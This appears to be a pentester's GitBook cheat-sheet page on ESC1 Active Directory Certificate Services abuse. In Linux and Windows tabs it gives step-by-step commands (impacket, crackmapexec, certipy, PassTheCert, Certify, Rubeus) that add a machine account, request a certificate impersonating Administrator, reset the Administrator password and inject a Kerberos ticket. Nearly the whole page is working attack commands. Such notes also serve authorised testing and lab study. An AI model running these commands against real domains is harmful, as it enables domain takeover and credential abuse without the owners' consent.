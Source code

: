 # ESC1

{% hint style="info" %}
You have enroll permission
{% endhint %}

{% tabs %}
{% tab title="Linux" %}
Create a new computer inside the domain

{% code overflow="wrap" %}
```
impacket-addcomputer  <DOMAIN>/<USER>:'<PASS>' -computer-name testComputer2$ -computer-pass TestPassword321
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/Pasted image 20230719143908.png" alt=""><figcaption></figcaption></figure>

Check if has been created

```bash
crackmapexec smb <IP> -u 'testComputer2$' -p 'TestPassword321' -d <DOMAIN>
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20230719150304.png" alt=""><figcaption></figcaption></figure>

We are generating a certificate for the newly created account

```bash
certipy req -u 'testComputer2$' -p 'TestPassword321' -dc-ip IP_DC_HERE -ca AUTHORITY-CA -template '<TEMPLATE>' -upn 'Administrator'
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20230719150515.png" alt=""><figcaption></figcaption></figure>

Now divide the certificate in crt and key

```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
certipy cert -pfx administrator.pfx -nocert -out user.key
```

Now use [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) to abuse the certificate and set a new password for the account

```bash
python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip IP_DC_HERE -target administrator -new-pass
```
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```
C:\AD\Tools\Certify.exe request /ca:<$CA name> /template:<$Vulnerable Template> /altname:Administrator
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(28).png" alt=""><figcaption></figcaption></figure>

Now copy the certificate and convert it using the suggested command

{% code overflow="wrap" %}
```
openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```
{% endcode %}

And now request a ticket using the certificate

{% code overflow="wrap" %}
```
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:pass  /nowrap /ptt
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(29).png" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

